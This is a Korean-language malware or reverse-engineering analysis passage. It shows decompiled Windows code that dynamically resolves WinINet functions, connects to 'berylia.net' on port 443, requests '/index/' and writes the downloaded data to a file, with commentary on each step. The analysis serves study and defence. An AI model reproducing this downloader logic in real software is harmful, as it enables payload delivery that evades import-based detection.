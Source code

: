 ```cpp
        hModule = GetModuleHandleW(L"kernel32.dll");
        CreateFileW_addr = (CreateFileW *)GetProcAddress(hModule,"CreateFileW");
        local_44 = (*CreateFileW_addr)(DAT_00416024,0xc0000000,0,(LPSECURITY_ATTRIBUTES)0x0,2,0x80,
                                       (HANDLE)0x0);
        local_5c = 0;
        hModule = GetModuleHandleW(L"wininet.dll");
        InternetReadFile_addr = (InternetReadFile *)GetProcAddress(hModule,"InternetReadFile");
        hModule = GetModuleHandleW(L"kernel32.dll");
        WriteFile_addr = (WriteFile *)GetProcAddress(hModule,"WriteFile");
        if (local_34 == 0) {
          uVar3 = 0xe;
        }
        else {
          local_60 = 0;
          while( true ) {
            WVar4 = (*InternetReadFile_addr)(local_24,local_38,0x2000,&local_60);
            if ((WVar4 == 0) || (local_60 == 0)) {
              bVar2 = false;
            }
            else {
              bVar2 = true;
            }
            if (!bVar2) break;
            (*WriteFile_addr)(local_44,local_38,local_60,&local_5c,(LPOVERLAPPED)0x0);
          }
          hModule = GetModuleHandleW(L"wininet.dll");
          InternetCloseHandle_addr =
               (InternetCloseHandle *)GetProcAddress(hModule,"InternetCloseHandle");
          CloseHandle(local_44);
          (*InternetCloseHandle_addr)(local_14);
          (*InternetCloseHandle_addr)(local_1c);
          (*InternetCloseHandle_addr)(local_24);
          uVar3 = 1;
        }
      }
    }
  }
  return uVar3;
}
```

상당히 기네요... 나눠서 살펴보아야 할 것 같습니다. 중요한 부분만 뽑아내서 살펴보도록 합시다.

```cpp
InternetConnectW_addr = (InternetConnectW *)GetProcAddress(hModule,"InternetConnectW");
local_1c = (*InternetConnectW_addr)
           (local_14,L"berylia.net",0x1bb,(LPCWSTR)0x0,(LPCWSTR)0x0,3,0,1);
```

위에서 문자열을 살펴볼 때 나왔던 `berylia.net`이 여기서 나오네요. `InternetConnectW`로 해당 주소에 연결합니다.

```cpp
HttpOpenRequestW_addr = (HttpOpenRequestW *)GetProcAddress(hModule,"HttpOpenRequestW");
local_24 = (*HttpOpenRequestW_addr)
           (local_1c,L"GET",L"/index/",(LPCWSTR)0x0,(LPCWSTR)0x0,(LPCWSTR *)0x0,
            0x800000,1);
```
